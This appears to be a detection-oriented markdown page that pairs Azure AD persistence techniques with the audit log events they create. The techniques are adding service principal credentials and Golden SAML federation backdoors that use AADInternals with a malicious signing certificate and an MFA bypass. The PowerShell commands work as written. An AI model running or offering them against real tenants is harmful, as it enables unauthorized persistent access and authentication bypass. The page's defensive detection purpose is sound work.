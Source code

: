 ### Adding credentials to an existing new Service Principals to provide long-term API-based access

```
PS> $cert = New-SelfSignedCertificate -dnsname some.domain.com -CertStoreLocation cert:\LocalMachine\My -Provider “Microsoft Enhanced RSA and AES Cryptographic Provider”  
PS> $keyValue = [System.Convert]::ToBase64String($cert.GetRawCertData())   
PS> $sp = get-azureadserviceprincipal -searchstring SEARCHSTRING  
PS> New-AzureADServicePrincipalKeyCredential -objectid $sp.ObjectId -EndDate "01-01-2022 12:00:00" -StartDate "01-03-2021 14:12:00" -CustomKeyIdentifier "Test" -Type AsymmetricX509Cert -Usage Verify -Value $keyValue  
PS> Connect-AzureAD  -Tenant TENANTID -ApplicationID APPID -CertificateThumbprint CERTTHUMBPRINT  
```

Creates the Azure AD audit log event "Add service principal credentials"

```
PS> New-AzureADServicePrincipalPasswordCredential -objectid $sp.ObjectId -EndDate "01-01-2030 12:00:00" -StartDate "04-04-2020 12:00:00"  -Value PASSWORD  
```
Creates the Azure AD audit log event "Add service principal credentials"

### Configuring new or modifying existing federation trusts to perform Golden SAML attacks

* Adding new federation trusts to or modifying existing federation trusts to add new token-signing certificates, to forge SAML authentication tokens

```
PS> Get-AADIntAccessTokenForAADGraph -savetocache                                                                       
PS> ConvertTo-AADIntBackdoor -domain maliciousdomain.com     
PS> get-msoluser | select UserPrincipalName, ImmutableId  
PS> Open-AADIntOffice365Portal -ImmutableID $id -UseBuiltInCertificate -ByPassMFA $true -Issuer ISSUER  
```
Creates the Azure AD audit log event "Set domain authentication"

```
PS> Get-MSOLUser | Where-Object{$\_.DisplayName -eq 'Will'} | select UserPrincipalName, ImmutableId  
PS> Get-MsolDomainFederationSettings -DomainName $domainname | Select IssuerUri  
PS> Get-MsolDomainFederationSettings -DomainName $domainname | Select *  
PS> Set-MsolDomainFederationSettings -DomainName $domainname -NextSigningCertificate $malicious_cert  
PS> Get-MsolDomainFederationSettings -DomainName $domainname | Select *  
PS> Open-AADIntOffice365Portal -ImmutableID $id -UseBuiltInCertificate -ByPassMFA $true -Issuer $issueruri  
```

AuditLogs | where OperationName =~ "Set federation settings on domain"

### Joining a fake device to Azure AD

* [Journey to Azure AD PRT: Getting access with pass-the-token and pass-the-cert](https://o365blog.com/post/prt/)
